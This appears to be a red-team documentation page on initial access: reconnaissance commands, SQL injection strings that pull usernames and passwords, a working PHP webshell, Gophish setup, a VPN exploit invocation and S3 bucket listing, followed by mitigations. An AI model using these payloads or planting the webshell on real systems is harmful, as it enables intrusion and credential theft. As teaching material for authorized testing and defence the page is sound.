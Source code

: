 ```yaml
---
title: Initial Access Techniques
description: Methods for obtaining initial entry into target environments
---
```


# Initial Access Techniques

Initial access represents the first phase of an attack, where the operator attempts to gain a foothold in the target environment. This section covers various techniques for obtaining initial access during authorized red team operations.

## External Reconnaissance

Before attempting access, thorough reconnaissance is essential:

- **OSINT**: Gathering publicly available information
- **Network scanning**: Identifying exposed services and potential entry points
- **Subdomain enumeration**: Discovering forgotten or unmanaged assets

### OSINT Tools

```bash
# Example reconnaissance workflow
whois target.com
theHarvester -d target.com -b google,linkedin
amass enum -d target.com
subfinder -d target.com
```

## Web Application Attacks

Web applications often provide the path of least resistance for initial access:

### SQL Injection

SQL injection remains a critical vulnerability in many web applications:

```sql
-- Basic SQL injection test
' OR 1=1 --
' UNION SELECT username, password FROM users --
```

### File Upload Vulnerabilities

Unrestricted file uploads can lead to remote code executi
```php
<?php
  // Basic PHP webshell
  if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
  }
?>
```

## Phishing Campaigns

Phishing remains one of the most effective initial access techniques:

1. **Reconnaissance**: Gather information about targets
2. **Infrastructure**: Set up domains, email services, and collection mechanisms
3. **Lure creation**: Develop convincing scenarios and content
4. **Execution**: Deliver the campaign
5. **Post-exploitation**: Establish persistence once access is obtained

### Example Phishing Framework Setup

```bash
# Setting up Gophish
docker pull gophish/gophish
docker run -d -p 3333:3333 -p 8080:8080 --name gophish gophish/gophish
```

## External Service Exploitation

Targeting externally exposed services can provide direct access:

### VPN and Remote Access

VPN services and remote access solutions often become targets:

```bash
# Example Pulse Secure VPN scanner
./pulse-exploit.sh -u https://vpn.target.com --check
```

### Cloud Misconfigurations

Cloud resources with misconfigurations can provide initial access vectors:

```bash
# S3 bucket enumeration
aws s3 ls s3://company-backup-bucket/ --no-sign-request
```

## Mitigation Strategies

Organizations can protect against these attack vectors by:

- Implementing robust patch management
- Conducting regular security awareness training
- Deploying multi-factor authentication
- Performing regular external penetration testing
- Using cloud security posture management tools

## References

- [MITRE ATT&CK - Initial Access](https://attack.mitre.org/tactics/TA0001/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)